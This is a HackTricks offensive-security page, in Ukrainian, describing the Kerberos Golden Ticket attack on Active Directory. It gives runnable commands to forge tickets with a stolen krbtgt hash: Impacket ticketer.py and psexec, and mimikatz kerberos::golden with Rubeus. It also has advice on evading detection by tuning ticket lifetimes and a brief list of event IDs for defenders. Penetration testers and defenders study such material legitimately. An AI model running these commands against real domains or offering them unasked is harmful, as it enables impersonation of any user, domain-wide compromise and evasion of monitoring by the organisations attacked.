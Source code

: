 # Golden Ticket

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Golden ticket

Атака **Golden Ticket** полягає у **створенні легітимного квитка на отримання квитка (TGT), що імітує будь-якого користувача** за допомогою **NTLM хешу облікового запису krbtgt Active Directory (AD)**. Ця техніка є особливо вигідною, оскільки вона **дозволяє отримати доступ до будь-якої служби або машини** в межах домену як імітований користувач. Важливо пам'ятати, що **облікові дані облікового запису krbtgt ніколи не оновлюються автоматично**.

Щоб **отримати NTLM хеш** облікового запису krbtgt, можна використовувати різні методи. Його можна витягти з **процесу Local Security Authority Subsystem Service (LSASS)** або з **файлу NT Directory Services (NTDS.dit)**, розташованого на будь-якому контролері домену (DC) в межах домену. Крім того, **виконання атаки DCsync** є ще однією стратегією для отримання цього NTLM хешу, що може бути виконано за допомогою таких інструментів, як **модуль lsadump::dcsync** в Mimikatz або **скрипт secretsdump.py** від Impacket. Важливо підкреслити, що для виконання цих операцій зазвичай потрібні **права адміністратора домену або подібний рівень доступу**.

Хоча NTLM хеш служить життєздатним методом для цієї мети, **рекомендується** **підробляти квитки, використовуючи ключі Kerberos з розширеним шифруванням (AES) (AES128 та AES256)** з міркувань оперативної безпеки.


{% code title="From Linux" %}
```bash
python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```
{% endcode %}

{% code title="З Windows" %}
```bash
#mimikatz
kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist #List tickets in memory

# Example using aes key
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
```
{% endcode %}

**Якщо** ви маєте **впроваджений золотий квиток**, ви можете отримати доступ до спільних файлів **(C$)**, а також виконувати сервіси та WMI, тому ви можете використовувати **psexec** або **wmiexec** для отримання оболонки (схоже, що ви не можете отримати оболонку через winrm).

### Обхід поширених виявлень

Найпоширеніші способи виявлення золотого квитка - це **перевірка трафіку Kerberos** в мережі. За замовчуванням, Mimikatz **підписує TGT на 10 років**, що буде виглядати аномально в наступних запитах TGS, зроблених з ним.

`Lifetime : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM`

Використовуйте параметри `/startoffset`, `/endin` та `/renewmax`, щоб контролювати початковий зсув, тривалість та максимальні поновлення (все в хвилинах).
```
Get-DomainPolicy | select -expand KerberosPolicy
```
На жаль, тривалість життя TGT не реєструється в 4769, тому ви не знайдете цю інформацію в журналах подій Windows. Однак, що ви можете корелювати, це **бачити 4769 без попереднього 4768**. **Неможливо запитати TGS без TGT**, і якщо немає запису про виданий TGT, ми можемо зробити висновок, що він був підроблений офлайн.

Щоб **обійти цю перевірку виявлення**, перевірте діамантові квитки:

{% content-ref url="diamond-ticket.md" %}
[diamond-ticket.md](diamond-ticket.md)
{% endcontent-ref %}

### Пом'якшення

* 4624: Вхід в обліковий запис
* 4672: Вхід адміністратора
* `Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property`

Інші маленькі трюки, які можуть зробити захисники, це **попереджати про 4769 для чутливих користувачів**, таких як обліковий запис адміністратора домену за замовчуванням.

## Посилання
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)

{% hint style="success" %}
Вчіться та практикуйте Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте за нами в** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться трюками хакерів, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

